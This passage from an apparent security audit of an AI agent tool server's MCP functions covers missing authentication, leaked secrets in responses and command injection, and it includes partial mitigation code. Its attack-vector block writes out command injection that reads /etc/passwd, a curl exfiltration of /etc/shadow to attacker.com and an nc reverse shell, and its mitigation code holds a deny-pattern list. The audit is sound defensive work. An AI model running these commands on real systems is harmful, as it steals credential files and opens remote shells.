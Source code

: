 **Risk**: Cross-site scripting and data theft

### 3. Authentication and Authorization Gaps ❌ CRITICAL

**Finding**: Most MCP functions lack authentication mechanisms.

**Vulnerable Patterns**:
- No API key validation
- No user authentication required
- No rate limiting implemented
- No access control checks

**Example Vulnerable Function**:
```javascript
// mcp__claude-flow__swarm_destroy - No auth required
{
  "swarmId": "production-swarm-001"  // Could destroy critical systems
}
```

### 4. Data Exposure Vulnerabilities ⚠️ MEDIUM RISK

**Finding**: Some functions may expose sensitive information in responses.

**Examples**:
```javascript
// Potential sensitive data leakage
{
  "success": true,
  "config": {
    "apiKeys": ["secret-key-123"],    // Exposed in response
    "database": "mongodb://user:pass@host/db"
  }
}
```

## Detailed Vulnerability Analysis

### 1. Command Execution Functions (CRITICAL RISK)

**Affected Functions**:
- `mcp__claude-flow__terminal_execute`
- `mcp__claude-flow__sparc_mode` (with system commands)
- Browser automation functions with script execution

**Attack Vectors**:
```bash
# Command injection examples
command: "ls /home; cat /etc/passwd"
command: "curl http://attacker.com/exfiltrate -d @/etc/shadow"
command: "nc -e /bin/bash attacker.com 4444"  # Reverse shell
```

**Mitigation Required**:
```javascript
class SecureMCPExecutor {
  constructor() {
    this.allowedCommands = new Set(['ls', 'pwd', 'echo', 'cat']);
    this.bannedPatterns = [
      /[;&|`$()]/,           // Command separators
      /\.\./,                // Path traversal
      /\/etc\/passwd/,       // System files
      /rm\s+-rf/,           // Destructive commands
    ];
  }

  validateCommand(command, args) {
```